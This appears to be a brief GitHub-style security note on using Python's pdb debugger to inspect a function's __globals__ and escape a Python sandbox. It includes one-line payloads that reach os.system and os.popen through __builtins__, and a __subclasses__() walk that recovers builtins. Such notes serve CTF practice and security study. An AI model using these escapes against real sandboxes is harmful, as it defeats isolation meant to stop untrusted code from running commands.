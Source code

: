 ## Debug python script and bypass python sandbox

add two line in your python script.

```python
import pdb;
pdb.set_trace()
```


## Example

```
# show attr, like a.X
(Pdb) dir(test)
['__annotations__', '__builtins__', '__call__', '__class__', '__closure__', '__code__', '__defaults__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__get__', '__getattribute__', '__getstate__', '__globals__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__kwdefaults__', '__le__', '__lt__', '__module__', '__name__', '__ne__', '__new__', '__qualname__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__']
```


```
# show as key, like a[X]
(Pdb) (test.__globals__).keys()
dict_keys(['__name__', '__doc__', '__package__', '__loader__', '__spec__', '__annotations__', '__builtins__', '__file__', '__cached__', 'os', 'test'])
```

if we got `__globals__`, we can got command execution:

```
(Pdb) type(test)
<class 'function'>

# test is function
test.__globals__['__builtins__'].__import__("os").system("whoami")
test.__globals__['__builtins__'].__import__("os").popen("whoami").read()

# Get builtins from loaded classes
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "builtins" in x.__init__.__globals__ ][0]["builtins"]
```

## Reference

+ https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes
+ https://youtu.be/DYp9TFnZH-g?t=1110 